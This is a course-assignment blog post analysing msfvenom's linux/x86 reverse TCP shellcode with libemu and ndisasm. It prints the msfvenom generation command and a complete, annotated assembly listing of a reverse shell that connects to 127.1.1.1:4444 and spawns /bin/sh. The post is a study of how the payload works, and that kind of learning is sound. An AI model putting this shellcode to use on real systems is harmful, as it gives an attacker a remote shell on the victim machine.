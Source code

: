 ```yaml
---
layout: post
title: "SLAE Problem 5.1: Msfvenom Analysis of linux/x86/shell_reverse_tcp"
description: "Analysis of Msfvenom shellcode: linux/x86/shell_reverse_tcp"
tags: [asm, shellcode, msfvenom]
---
```


This blog post has been created for completing the requirements for the SecurityTube
Linux Assembly Expert certification:
[<http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert>](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert)

Student ID: SLAE-824

## Requirements

- Choose at least 3 shellcode samples created using Msfvenom for linux/x86
- Use GDB/Ndisasm/Libemu to dissect the functionality of the shellcode
- Present your analysis

Source code for this assignment can be found [here](https://github.com/blischalk/slae/tree/master/exercise5)

### Analysis

Since I had created a reverse tcp shellcode for assignment 2 of the SLAE
I decided that it would be interesting to look at msfvenom's version and
to see how it differed from mine. To do so I did the following:

Generate a linux/x86/shell_reverse_tcp shellcode using:

{% highlight bash %}
msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.1.1.1 R > revshell.bin
{% endhighlight %}

It defaults to LPORT=4444 so there is no need to set it.

Next, I ran the shellcode using Libemu and generated a .dot file:

{% highlight bash %}
/usr/bin/sctest -vvv -S -s 10000 -G revshell.dot < revshell.bin
{% endhighlight %}

I then converted the dot file to a png using:

{% highlight bash %}
dot -Tpng revshell.dot > revshell.png
{% endhighlight %}

Which gives us:

<img src="{% asset_path 'revshell.png' %}" alt="revshell.png" style="width: 500px;"/>

Cool. Looking at the purple boxes we see that the system calls that are
being used are:

- socket
- dup2
- connect
- execve

Those were the same socket calls that were used in the reverse shell
for assignment 2. Lets analyze things at the assembly level:

#### MSFVenom Socket:
{% highlight nasm %}
; Socket
;; Clear out ebx
xor ebx,ebx

;; Clear out eax as eax is the implied destination
;; When anything is multiplied by 0 it will be zero
;; I'm not sure why this is done as the byte count ends up
;; being the same. Example:

;; xor ebx, ebx
;; mul ebx
;; = "\x31\xDB\xF7\xE3"

;; Versus:
;; xor eax, eax
;; xor ebx, ebx
;; = "\x31\xC0\x31\xDB"

mul ebx

;; Protocol INADDR_ANY Accept on any interface 0x00000000
;; Push this value onto the stack
push ebx

;; Increment ebx. This is pushed to the stack for
;; SOCK_STREAM socket type of 1 as well as left in
;; the register as 1 is the sys_socket syscall number
inc ebx
push ebx

push byte 0x2 ;; Domain af_inet sets protocol family to ip protocol 2
mov ecx,esp ;; Pointer to sys_socket args
mov al,0x66 ;; socketcall syscall
int 0x80 ;; Call socket syscall

; Save returned file descriptor
; Not only does it save the file descriptor but
; It sets up ebx for the Dup2 call
; Which is the "New File Descriptor"
; That will be used in place of the "Old File Descriptor"
; Killing 2 birds with 1 stone
xchg eax,ebx

; Load 0x2 into ecx for the dup2 loop counter and fd number
pop ecx

; Dup2 loop
mov al,0x3f ; Place dup2 syscall in al
int 0x80 ; Duplicate fd
dec ecx ; Decrement to the next file descriptor number
jns 0xfffffffb ; Loop

; Connect
; Build sockaddr_in structure
push dword 0x101017f ; inet_addr("127.1.1.1") = 0x0101017f

;; Push port 4444 in big endian network byte order
;; and sin_family of AF_INET
;; This places 2  values on the stack in 1 operation
;; This does seem to introduce a null byte though...
push dword 0x5c110002

;; Mov pointer to sockaddr_in structure
mov ecx,esp

mov al, 0x66 ;; socketcall syscall
push eax ; addrlen
push ecx ; sockaddr_in struct pointer
push ebx ; socket file descriptor
mov bl,0x3 ; sys_call 3 which is connect()
mov ecx,esp ; pointer to connect args
int 0x80

; Execve
push edx ; 0x00000000
push dword 0x68732f6e ;"hs/n"
push dword 0x69622f2f ;"ib//"
mov ebx,esp ; place filename string in ebx
push edx ; 0x00000000
push ebx ; push pointer to program string
mov ecx,esp ; place pointer program args in ecx
mov al,0xb ; execve syscall
int 0x80
{% endhighlight %}

All in all this MSFvenom shellcode looks very similar to the one I had created
in assignment 2. There are some slight differences like using `mul` to clear
out `eax` as opposed to just using `xor`. One cool trick the MSFvenom version
was doing was using a push dword with the port and sin_family in 1 operation.
`push dword 0x5c110002` instead of what I had in my version:

        push word 0x5c11 ; sin_port=4444 (network byte order)
        push word bx     ; sin_family=AF_INET (0x2)

If we look at the objdump of a little nasm program to compare the instructions
we see:

1. Using 2 xor operations yields the same number of bytes/opcodes as using an xor and a mul instruction
2. Using a single dword push instruction instead of 2 push word instructions yields 1 less byte/opcode but it does introduce a null byte.

<img src="{% asset_path 'opcodeComparison.png' %}" alt="opcodeComparison.png" style="width: 500px;"/>

It was really interesting to see what MSFvenom generated shellcode looks like.
Doing this exercise has taken a bit of the mystique of MSFVenom away and I look
forward to analyzing more shellcode from it to see what else I can learn.

